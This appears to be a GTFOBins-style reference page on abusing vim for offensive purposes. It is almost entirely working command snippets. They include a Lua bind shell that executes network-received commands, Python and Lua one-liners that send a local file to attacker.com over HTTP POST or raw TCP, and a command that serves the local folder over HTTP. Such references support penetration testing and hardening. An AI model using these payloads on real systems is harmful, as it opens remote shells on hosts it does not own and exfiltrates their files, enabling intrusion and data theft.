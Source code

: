 ## Non-interactive bind shell

It can bind a non-interactive shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
vim -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  while true do
    local r,x=c:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));c:send(b);
  end;c:close();f:close();'
```

## File upload

It can exfiltrate files on the network.

This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export URL=http://attacker.com/
export LFILE=file_to_send
vim -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
vim.command(":q!")'
```

This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.

```
export LPORT=8888
vim -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import http.server as s, socketserver as ss
else: import SimpleHTTPServer as s, SocketServer as ss
ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
vim.command(":q!")'
```

Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
vim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
  local d=f:read("*a")
  io.close(f);
  local s=require("socket");
  local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  t:send(d);
  t:close();'
```
